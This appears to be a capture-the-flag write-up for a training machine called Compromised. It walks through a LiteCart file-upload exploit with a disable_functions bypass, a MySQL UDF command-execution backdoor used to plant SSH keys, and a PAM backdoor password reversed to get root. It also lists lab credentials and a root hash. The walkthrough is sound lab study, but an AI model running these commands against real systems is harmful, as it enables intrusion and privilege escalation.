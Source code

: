 # Compromised - Hard

### Initial recon
After a brief nmap scan we do get only two ports open: ***22*** (ssh) and ***80*** (web). 

### Trying to find a lead. Recon on port 80
When we try to acess `http://compromised.htb/` we get redirected to `/shop` a LiteCart Ecommerce platform. For now we don't have any sets of credentials. So I fired up ***gobuster*** (`gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://compromised.htb/ -x .php,.txt,.html,.zip -o compromised.recon`) and ***nikto*** (`nikto -h "http://compromised.htb"`). Both ended up with `/backup` as an interesting directory to check. Here we can download the archive ***a.tar.gz*** (`curl http://compromised.htb/backup/a.tar.gz -o a.tar.gz`). 

### Forensics on the backup archive
At first we get a decoy that points to an already existing reverse shell (`.sh.php`), which can't be found on the production server. So, I was looking deeper into the files that had the same date or newer than the breach occured ***28 May***. We can see that in the `admin` folder there was a file modified on ***13 September***, the `login.php` file. Here we get a commented snippet of code that was phising user credentials and storing at `./.log2301c9430d8593ae.txt`. 
We got a hit! The file is located at `shop/admin/.log2301c9430d8593ae.txt` which is leaking the admin credentials!

### Foothold
Now that we have the admin credentials we can login into the ACP. Here the version is disclosed (being 2.1.2) which has an `Arbitrary File Upload ` that would eventually lead to `Remote Code Execution`. So we run the script aaaaand booom... we get nothing. What?? Is it something wrong with the shell or? I tried another couple of tricks but nothing. Than I tried to list all ***disabled_functions***, basically all functions that could lead to RCE were disabled.

After a few tries and a lot of headache I ended up finding the `'gc' disable_functions Bypass`. To combine both exploits I decided to read from `shell.php` which contained the exploit and than use `webwrap` to get an actual shell, because aparently all pings were blocked, so I couldn't spawn tty shells. The sequence looks like `python2 exploit.py -u admin -p test -t http://compromised.htb/shop/admin/` than `python3 webwrap.py http://compromised.htb/shop/vqmod/xml/BLXOF.php\?c\=WRAP`.

> ***Note***: I hardcoded the password in the exploit.py and that's why I used `test` instead of `theNextGenSt0r3!~`. Also `BLXOF.php` is the file that you are supposed to pass in, that is located in the same line with `Shell =>`.

# Intended path

### From www-data to mysql

Even though we don't have a complete tty shell, for the next exploit we do need one. After a few tried I've found out that MySQL user can login as a normal one. That was a strange thing to find in `/etc/passwd` so I tried to find some credentials. I headed streight back to `/var/www/html/shop` and started a search using 
`find /var/www/html/shop -newermt "27-May-2020" \! -newermt "29-May-2020" 2>&1 | grep -v "Permission denied"`. From all one file stood up, the `includes/config.inc.php`. Here we can find the database credentials and head streight to enum using `mysql -u root -pchangethis -D information_schema -e "<cmd>"` because I couldn't manage to spawn a tty shell. 

Now after a few tried I found this (article)[https://pure.security/simple-mysql-backdoor-using-user-defined-functions/] that explained how you can backdoor a server using MYSQL UDF (User defined functions). Well, at first I tried to compile my own binary, but after running `mysql -u root -pchangethis -D information_schema -e " select * from mysql.func;"` I ended up finding that the previous hackers already did that and the only thing I was supposed to do was 
`mysql -u root -pchangethis -D information_schema -e " select exec_cmd('whoami')"` and I was mysql.

Not being able to ping my box from inside was a small issue, but I decided to try my luck and insert some ssh keys into the home directory of MySQL user. First, I wanted to make sure that ***authorized_keys*** file was empty and I did `mysql -u root -pchangethis -D information_schema -e " select exec_cmd('echo "" > /var/lib/mysql/.ssh/authorized_keys')"`. The thing was I needed to upload my SSH keys using the LiteCart exploit, so I first needed to change my local file ***shell.php*** into the ***a_shell.php*** than rename ***id_rsa.pub*** into ***shell.php***, run again the `python2 exploit.py -u admin -p test -t http://compromised.htb/shop/admin/` and than just use mysql to inject my key: `mysql -u root -pchangethis -D information_schema -e " select exec_cmd('cat /var/www/html/shop/vqmod/xml/WVDWS.php > /var/lib/mysql/.ssh/authorized_keys')"`. 
Now I can just `ssh -i id_rsa mysql@compromised.htb` and got redundancy.

### From mysql to root

Having a tty shell allowed me to run an enumeration script called (LinPeas)[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS]. Again I needed to upload it using the LiteCart AFU and than move it into the MySQL home directory. There was a thing in the ssh configuration that was not default, `UsePAM no` and the message above him `Set this to 'yes' to enable PAM authentication, account processing,`. So I search into the `/lib` for ***pam_unix.so*** using `find /lib -type f -name pam_unix.so 2>&1 | grep -v "Permission denied"`. The only interesting one was `/lib/x86_64-linux-gnu/security/pam_unix.so`, having also in the same directory `.pam_unix.so`. 

To download this file I moved it into `/var/www/html/` and than `curl http://compromised.htb/pam_unix.so -o pam_unix.so`. I needed to reverse engenieer it and under the `pam` function which has a variable named ***backdoor***  (`backdoor._08 = 0x4533557e656b6c7a; backdoor._87 = 0x2d326d3238766e;`). This decoded as HEX become `-2m28vnE3U~eklz`. Being a binary it's endianness. So I string reversed it and become `zlke~U3Env82m2-`. 

Now I just need to `su root` and `zlke~U3Env82m2-` as password and we pwned!!!

# Unintended way

### From www-data to root
Even though we also need to reverse this binary, and get the password `zlke~U3Env82m2-`, we don't need to bother with privesc to mysql user. Acording to this [article](https://www.sans.org/blog/sneaky-stealthy-su-in-web-shells/) we can ***su*** without needing to have a ***tty shell***. By running the `(sleep 1; echo zlke~U3Env82m2-) | python3 -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"` on the ***webwrap shell*** we get the output "root". Now we can't really get more complex than `(sleep 1; echo zlke~U3Env82m2-) | python3 -c "import pty; pty.spawn(['/bin/su','-c','cat /root/root.txt && cat /home/sysadmin/user.txt']);"` because we can't ping back our box and login with ssh as root or sysadmin. So we can actually redo the whole mysql user ssh from the intended path `(sleep 1; echo zlke~U3Env82m2-) | python3 -c "import pty; pty.spawn(['/bin/su','-c','cat /var/www/html/shop/vqmod/xml/WVDWS.php > /var/lib/mysql/.ssh/authorized_keys')"`. 


### Credentials
- admin:theNextGenSt0r3!~ (Litecart)
- root:changethis (MySQL CLI user)
- $6$lAY5.6eu$m26Pk/KZfbG/KIxgQwSM2W.PuARZt9Qrs2HLNylIuLVIlKe0nyoa2tDk3Kb98JFJDzxfSU0oOoBdGrFhMzOgU0 (root hash)

##### Disabled functions 
```php
<?php
var_dump(ini_get('disable_functions'));
?>
```
Which outputs: 
```php
string(556) "system,passthru,popen,shell_exec,proc_open,exec,fsockopen,socket_create,curl_exec,curl_multi_exec,mail,putenv,imap_open,parse_ini_file,show_source,file_put_contents,fwrite,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,"
```

##### Includes/config.inc.php

```php
define('DB_TYPE', 'mysql');
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'changethis');
define('DB_DATABASE', 'ecom');
define('DB_TABLE_PREFIX', 'lc_');
define('DB_CONNECTION_CHARSET', 'utf8');
define('DB_PERSISTENT_CONNECTIONS', 'false');
```